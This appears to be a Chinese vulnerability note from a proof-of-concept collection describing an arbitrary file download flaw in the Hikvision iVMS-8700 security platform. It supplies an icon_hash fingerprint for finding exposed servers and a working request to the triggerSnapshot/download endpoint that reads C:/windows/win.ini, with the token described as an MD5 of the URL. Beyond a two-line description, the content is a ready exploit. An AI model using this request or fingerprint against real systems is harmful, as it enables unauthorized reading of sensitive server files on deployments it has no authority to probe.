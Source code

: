 # Hikvision iVMS-8700综合安防管理平台 download 任意文件下载漏洞

## 漏洞描述

Hikvision iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

## 漏洞影响

Hikvision iVMS-8700综合安防管理平台

## 网络测绘

```
icon_hash="-911494769"
```

## 漏洞复现

登录页面

![image-20230704110859434](images/image-20230704110859434.png)

验证POC， token 为 Url md5

```
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![image-20230704111021242](images/image-20230704111021242.png)